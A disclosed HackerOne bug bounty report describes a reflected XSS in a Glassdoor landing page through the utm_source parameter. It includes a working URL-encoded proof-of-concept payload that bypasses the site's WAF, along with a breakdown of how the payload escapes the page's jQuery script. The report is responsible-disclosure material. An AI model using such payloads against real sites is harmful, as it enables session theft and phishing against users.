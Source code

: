 # Reflected XSS on https://www.glassdoor.com/employers/sem-dual-lp/

## Report Details
- **Report ID**: 846338
- **URL**: https://hackerone.com/reports/846338
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-10T10:16:52.521Z
- **Disclosed**: 2020-05-22T15:17:02.452Z

## Reporter
- **Username**: parzel
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: glassdoor

## Vulnerability Information
**Summary:**
There is a reflected XSS on https://www.glassdoor.com/employers/sem-dual-lp/ through the utm_source parameter. By using URL encoding I was able to bypass the WAF.

Affected URL or select Asset from In-Scope:
https://www.glassdoor.com/

Affected Parameter:
utm_source

Vulnerability Type:
XSS

Browsers tested:
Firefox 75.0

## Steps To Reproduce:
  1. Visit the following POC link:
```
https://www.glassdoor.com/employers/sem-dual-lp/?utm_source=abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e
```

## Explanation
The utm_source parameter is not escaped properly for URL encoded values. We can escape at multiple locations in the source. I escaped in the script section. The payload finished open function calls from jQuery, executes an alert as POC and then finished the original script tag. Basically we can dissect it as follows:
```
abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e

is url encoded for

abc`;return+false});});alert`xss`;</script>

which is used like

abc`;                       Finish the string
return+false});      Finish the jQuery click function
});                            Finish the jQuery ready function
alert`xss`;              Here we can execute our code
</script>               This closes the script tag to prevent JavaScript parsing errors
```

## Supporting Material/References (screenshots, logs, videos):
{F782251}

## Impact

A XSS attack allows an attacker to execute arbitrary JavaScript in the context of the attacked website and the attacked user. This can be abused to steal session cookies, perform requests in the name of the victim or for phishing attacks.

## Attachments
- Screenshot_from_2020-04-10_12-08-05.png
